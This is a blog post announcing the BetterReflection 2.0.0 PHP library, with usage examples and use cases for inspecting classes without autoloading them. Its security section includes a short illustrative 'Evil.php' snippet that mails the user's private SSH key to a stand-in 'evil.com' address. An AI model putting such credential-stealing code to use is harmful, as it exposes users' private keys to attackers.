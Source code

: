 ```yaml
---
layout: post
title: BetterReflection version 2.0.0 released
category: Security
tags: ["PHP", "Library", "Roave", "Clean Code", "Tools"]
year: 2017
month: 9
day: 18
published: true
summary: BetterReflection version 2 was released: let's look at its main features and improvements
description: BetterReflection is a library that aims at providing additional and improved Reflection API compared to PHP's ext-reflection
tweet: 
---
```

<p>
    <a href="https://twitter.com/RoaveTeam" target="_blank" rel="fn org">Roave</a>'s
    <a href="https://github.com/Roave/BetterReflection" target="_blank">BetterReflection</a>
    <a href="https://github.com/Roave/BetterReflection/releases/tag/2.0.0" target="_blank">2.0.0s</a>
    was released today!
</p>

<p>
    I and <a href="http://twitter.com/asgrim" target="_blank">James Titcumb</a> started working on this
    project back in 2015, and it is a pleasure to see it reaching maturity.
</p>

<p>
    The initial idea was simple: James would implement all my wicked ideas, while I
    would lay back and get drunk on Drambuie.
</p>

<p>
    <img
        src="../../img/posts/2017-09-18-roave-better-reflection-v2.0.0/drunken-coding.jpg"
        alt="Me, drunk in bed. Photo by @Asgrim, since I was too drunk to human"
    />
</p>

<p>
    Yes, that actually happened. Thank you, James, for all the hard work! 🍻
</p>

<p>
    <small>(I did some work too, by the way!)</small>
</p>

<h3>What the heck is BetterReflection?</h3>

<p>
    Jokes apart, the project is quite ambitious, and it aims at reproducing the entirety of the PHP
    reflection API without having any actual autoloading being triggered.
</p>

<p>
    When put in use, it looks like this:
</p>

~~~php
<?php

// src/MyClass.php

namespace MyProject;

class MyClass
{
    public function something() {}
}
~~~

~~~php
<?php

// example1.php

use MyProject\MyClass;
use Roave\BetterReflection\BetterReflection;
use Roave\BetterReflection\Reflection\ReflectionMethod;

require_once __DIR__ . '/vendor/autoload.php';

$myClass = (new BetterReflection())
    ->classReflector()
    ->reflect(MyClass::class);

$methodNames = \array_map(function (ReflectionMethod $method) : string {
    return $method->getName();
}, $myClass->getMethods());

\var_dump($methodNames);

// class was not loaded:
\var_dump(\sprintf('Class %s loaded: ', MyClass::class));
\var_dump(\class_exists(MyClass::class, false));
~~~

<p>
    As you can see, the difference is just in how you bootstrap the reflection API.
</p>

<p>
    Also, we do provide a fully backwards-compatible reflection API that you can use
    if your code heavily relies on <code>ext-reflection</code>:
</p>

~~~php
<?php

// example2.php

use MyProject\MyClass;
use Roave\BetterReflection\BetterReflection;
use Roave\BetterReflection\Reflection\Adapter\ReflectionClass;

require_once __DIR__ . '/vendor/autoload.php';

$myClass = (new BetterReflection())
    ->classReflector()
    ->reflect(MyClass::class);

$reflectionClass = new ReflectionClass($myClass);

// You can just use it wherever you had `ReflectionClass`!
\var_dump($reflectionClass instanceof \ReflectionClass);
\var_dump($reflectionClass->getName());
~~~

<p>
    How does that work?
</p>

<p>
    The operational concept is quite simple, really:
</p>

<ol>
    <li>
        We scan your codebase for files matching the one containing your class.
        This is fully configurable, but by default we use some ugly autoloader
        hacks to find the file without wasting disk I/O.
    </li>
    <li>
        We feed your PHP file to <a href="https://github.com/nikic/PHP-Parserr" target="_blank">PHP-Parser</a>
    </li>
    <li>
        We analyse the produced <abbr title="Abstract Syntax Tree">AST</abbr> and
        wrap it in a matching <code>Roave\BetterReflection\Reflection\*</code>
        class instance, ready for you to consume it.
    </li>
</ol>

<p>
    The hard part is tracking the miriad of details of the PHP language,
    which is very complex and cluttered with scope, visibility and inheritance
    rules. We take care of that work for you.
</p>

<h3>Use cases</h3>

<p>
    The main use-cases for BetterReflection are most likely around security, code
    analysis and <abbr title="Ahead of Time">AOT</abbr> compilation.
</p>

<p>
    One of the most immediate use-cases will likely be in
    <a href="https://github.com/phpstan/phpstan" target="_blank">PHPStan</a>, which
    will finally be able to inspect hideous mixed OOP/functional/procedural code
    if <a href="https://github.com/phpstan/phpstan/issues/67" target="_blank">
        the current WIP implementation
    </a> works as expected.
</p>

<p>
    Since you can now "work" with code before having loaded it, you can harden API
    around a lot of security-sensitive contexts. A serializer may decide
    to not load a class if side-effects are contained in the file declaring it:
</p>

~~~php
<?php

// Evil.php
\mail(
    'haxxor@evil.com',
    'All ur SSH keys are belong to us',
    \file_get_contents('~/.ssh/id_rsa')
);

// you really don't want to autoload this bad one:
class Evil {}
~~~

<p>
    The same goes for classes implementing malicious <code>__destruct</code> code,
    as well as classes that may trigger autoloading of other malicious code.
</p>

<p>
    It is also possible to analyse code that is downloaded from the internet without
    actually running it. For instance, code may be checked against GPG signatures in
    the file signature before being run, effectively allowing PHP to "run only signed code".
    <a href="https://getcomposer.org/" target="_blank">Composer</a>, anybody?
</p>

<p>
    If you are more into code analysis, you may decide to compare two different
    versions of a library, and scan for <abbr title="Backwards Compatibility>BC</abbr>
    breaks:
</p>

~~~php
<?php
// the-library/v1/src/SomeApi.php

class SomeAPI
{
    public function sillyThings() { /* ... */ }
}
~~~

~~~php
<?php
// the-library/v2/src/SomeApi.php

class SomeAPI
{
    public function sillyThings(UhOh $bcBreak) { /* ... */ }
}
~~~

<p>
    In this scenario, somebody added a mandatory parameter to <code>SomeAPI#sillyThings()</code>,
    effectively introducing a BC break that is hard to detect without having both versions of the
    code available, or a good migration documentation (library developers: please document this
    kind of change!).
</p>

<h3>Future use cases?</h3>

<p>
    In addition to the above use-case scenarios, we are working on additional
    functionality that would allow changing code before loading it. 
</p>
<p>
    Is that a good idea?
</p>
    ... I honestly don't know.
</p>

<p>
    Still, there are proper use-case scenarios around
    <abbr title="Aspect Oriented Programming">AOP</abbr> and proxying libraries,
    which would then be able to work even with <code>final</code> classes.
</p>

<p>
    You will likely see these features appear in a new, separate library.
</p>

<h3>Credits</h3>